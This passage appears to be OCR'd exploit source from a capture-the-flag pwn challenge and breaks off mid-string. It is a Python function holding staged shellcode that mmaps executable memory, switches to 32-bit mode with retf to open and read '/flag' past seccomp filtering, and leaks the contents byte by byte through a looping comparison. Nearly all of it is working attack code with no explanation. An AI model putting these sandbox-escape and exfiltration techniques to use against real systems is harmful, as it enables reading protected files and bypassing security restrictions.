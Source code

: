 ```bash
def exp(p,a,b):
    shellcode1 = '''
        mov r10,rbx
        add r10w,0x0140
        xor rdi,rdi
        mov rsi,r10    
        xor rdx,rdx
        add dx,0x1040
        xor rax,rax
        syscall
        jmp r10
    '''
    shellcode2 = '''

        mov rdi,0x40000000
        mov rsi,0x1000
        mov rdx,0x7
        mov r10,0x22
        mov r8,0xFFFFFFFF
        xor r9,r9
        mov rax,0x9
        syscall

        mov rsi,rdi
        xor rdi,rdi
        mov rdx,0x1000
        xor rax,rax
        syscall
        jmp rsi
    '''
    shellcode3_ = '''
        mov r10,0x2300000000
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-3
        ret 
    '''.format(a,b) if a==0 else '''

        mov r10,0x2300000000
```